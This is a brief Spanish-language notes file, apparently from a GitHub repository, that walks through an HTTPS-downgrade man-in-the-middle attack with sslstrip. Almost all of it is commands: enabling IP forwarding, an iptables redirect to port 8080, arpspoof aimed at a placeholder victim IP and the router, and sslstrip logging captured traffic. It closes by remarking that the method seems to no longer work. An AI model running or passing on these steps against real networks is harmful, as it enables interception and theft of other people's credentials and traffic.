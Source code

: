 Hack de HTTPS con macspoof

https://github.com/moxie0/sslstrip
http://www.thoughtcrime.org/software/sslstrip/

sudo apt-get install python-twisted-web
git clone https://github.com/moxie0/sslstrip.git
cd sslstrip
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
apt-get install dsniff

Hacemos arpspoof para que todo el tráfico pase por mi pc
arpspoof -i eth0 -t ip.de.la.victima ip.del.router
arpspoof -i eth0 -t ip.del.router ip.de.la.victima

python sslstrip.py -a -w capture.log -l 8080

Parece que ya no funciona
